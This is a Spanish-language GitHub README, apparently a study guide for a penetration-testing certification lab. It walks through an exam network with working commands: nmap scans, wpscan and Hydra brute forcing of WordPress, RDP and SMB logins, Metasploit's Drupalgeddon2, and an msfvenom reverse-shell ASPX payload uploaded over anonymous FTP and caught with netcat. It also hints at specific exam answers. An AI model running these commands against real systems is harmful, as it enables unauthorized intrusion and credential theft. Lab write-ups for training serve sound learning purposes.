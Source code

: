 # Easy-JTP
Suerte con la certificación, no recomiendo usar Metasploit si son nuevos.. mejor entiendan las vulnerabilidades
---

## **Tabla de Contenidos**
1. [Enumeración Inicial](#enumeración-inicial)
2. [Explotación de WordPress](#explotación-de-wordpress)
3. [Fuerza Bruta a XRDP](#fuerza-bruta-a-xrdp)
4. [Fuerza Bruta a SMB](#fuerza-bruta-a-smb)
5. [Explotación de Drupal](#explotación-de-drupal)
6. [Explotación de FTP](#explotación-de-ftp)
7. [Recomendaciones Generales](#recomendaciones-generales)

---

## **Enumeración Inicial**

El primer paso en cualquier examen o actividad de pentesting es la **enumeración o reconocimiento**. Utilicé `nmap` para escanear la red completa y descubrir servicios abiertos:

1. **Comando utilizado**: Realicé un escaneo con los scripts comunes y la detección de versiones para identificar los servicios disponibles "nmap -sC -sV -v 192.168.100.0/24".

2. **Resultados**:
   - 4 máquinas con servicios HTTP (puerto 80).
   - 2 máquinas con bases de datos MySQL.
   - 2 máquinas con XRDP (protocolo RDP).
   - Otros servicios como FTP y SMB en diferentes hosts.

3. **Hostname importante**: Encontré que uno de los servicios en `192.168.100.50` requería agregar el dominio `wordpress.local` en el archivo `/etc/hosts` para acceder al sitio web.

---

## **Explotación de WordPress**

1. **Enumeración de WordPress**:
   - Utilicé `wpscan` para enumerar usuarios y plugins.
   - Los usuarios y plugins detectados fueron claves para planear un ataque de fuerza bruta.
   - comandos: wpscan --url http://wordpress.local/ -e u; wpscan --url http://wordpress.local/ -e p;

2. **Fuerza Bruta de Contraseñas**:
   - Probé credenciales utilizando una lista de contraseñas conocida (`rockyou.txt`).
   - Después de descomprimir la lista de contraseñas (`gzip -d /usr/share/wordlists/rockyou.txt.gz`), ejecuté el ataque y logré obtener acceso.
   - comando con wpscan: wpscan --url http://wordpress.local/ --passwords /usr/share/wordlists/rockyou.txt

3. **Escalación a Shell**:
   - Subí un plugin malicioso manualmente para obtener una **reverse shell** manualmente.
   - Alternativamente, pueden usar el módulo `wp_admin_shell_upload` de Metasploit para automatizar este paso. Es importante activar el plugin desde el panel de WordPress si no funciona inmediatamente modificar el shell porque lo agregar para linux y la maquina es windows.

---

## **Fuerza Bruta a XRDP**

Hay dos máquinas con XRDP habilitado. Para realizar un ataque de fuerza bruta:

1. **Preparación de usuarios y contraseñas**:
   - Creé una lista de posibles usuarios basada en la información obtenida durante la enumeración.

2. **Ataque de fuerza bruta**:
   - Realicé fuerza bruta utilizando Hydra. Una vez encontradas las credenciales, accedí al escritorio remoto con `xfreerdp`.

3. **Escenario clave**:
   - Una de las máquinas permitía acceso como **root** mediante XRDP, lo que simplificó el control total del sistema.

4. **comandos**
   Fuerza bruta:

   hydra -L usuarios.txt -P  /usr/share/wordlists/rockyou.txt -t 4 -V rdp://192.168.100.52

   Para acceder:
   xfreerdp /u:el usuario /p:la password /v:192.168.100.52

---

## **Fuerza Bruta a SMB**

1. **Enumeración de Recursos Compartidos**:
   - Enumeré recursos SMB utilizando herramientas como `smbclient` y `enum4linux`.

2. **Fuerza Bruta de Credenciales**:
   - Utilicé Hydra para realizar ataques de fuerza bruta en el servicio SMB. Con las credenciales obtenidas, accedí a los recursos compartidos y extraje información relevante.

3. **comandos**:

hydra -L usuarios.txt -P /usr/share/wordlists/rockyou.txt smb://<IP_del_objetivo>
---

## **Explotación de Drupal**

1. **Identificación de la versión**:
   - Detecté que uno de los servidores estaba ejecutando una versión vulnerable de Drupal (CVE-2018-7600).

2. **Uso de Metasploit**:
   - existe el módulo `drupal_drupalgeddon2` para intentar obtener una shell.
   - Si el exploit no devuelve una shell estable, consideren usar técnicas como port forwarding o proxies para mejorar la conectividad.
    -al final al conectarte por xrdp eres root entonces no hay que hacer escalacion
---

## **Explotación de FTP**

1. **Subida de Webshell**:
   - accedan al servidor FTP donde subí una **webshell** (`shell.aspx`), debemos tener encuenta que existe un webshell, pero con anonymous pueden subir el archivo asi que mejor una revershell... lo consultan en la web http://192.168.100.51/shell.aspx no olvides escuchar con netcat....
   - si no te deja copiar o algun error X: usa msfvenom.... msfvenom -f aspx -p windows/shell_reverse_tcp LHOST=192.168.100.5 LPORT=4443 -e x86/shikata_ga_nai -o shell.aspx; y escuchas por el multi/handler

2. **Ejecución de la Webshell**:
   - configuren un listener (`nc`) para recibir la conexión y ejecuté la shell accediendo a su ruta desde el navegador "nc -lnvp (#)".

3. **Resultado**:
   - Obtención de acceso al sistema mediante una **reverse shell**.

---

## **Recomendaciones Generales**

1. **Enumeración exhaustiva**: Herramientas como `nmap`, `wpscan` y `enum4linux` son clave para identificar puntos de entrada.
2. **Uso de Hydra**: Es una herramienta poderosa para fuerza bruta en servicios como XRDP, SMB y FTP.
3. **Documentar todo**: Anoten usuarios, contraseñas y comandos utilizados para facilitar la resolución de preguntas del examen y hagan sus diccionarios propios.
4. **Prueben manualmente**: Aunque Metasploit es útil, es importante entender los procesos manuales detrás de los exploits.
5. **Existe una pregunta de usuarios como contraseña de alguno y si existen**: si es por xrdp, revisen remote desktop y enumeren manualmente... primero validar que existan con net user. 

## **Maquinas de HTB para practicar**

HTB - armagedon
HTB - Shield
HTB -Devel
HTB -Explosion

---

SUERTE! 

![image](https://github.com/user-attachments/assets/2d5674de-bb61-4afe-a0ce-c4d95e982af0)
